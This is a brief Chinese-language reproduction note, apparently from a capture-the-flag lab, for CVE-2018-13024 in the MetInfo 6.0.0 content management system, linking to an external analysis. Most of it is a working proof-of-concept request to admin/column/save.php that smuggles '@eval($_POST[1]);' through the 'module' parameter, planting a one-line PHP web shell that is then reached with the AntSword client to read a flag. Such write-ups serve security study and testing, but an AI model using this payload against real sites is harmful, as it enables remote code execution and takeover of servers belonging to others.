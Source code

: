 ## 1. 漏洞介绍

MetInfo是中国米拓信息技术有限公司的一套使用PHP和Mysql开发的内容管理系统（CMS）。

Metinfo 6.0.0版本中存在安全漏洞。远程攻击者可通过向admin/column/save.php文件发送‘module’参数利用该漏洞向.php文件写入代码并执行该代码。

分析：[Metinfo 6.0.0 后台getshell 漏洞分析 CVE-2018-13024-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1472525)
## 2. 漏洞复现

**poc**

```php
admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*
```

蚁剑连接获取 flag

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312221258632.png)
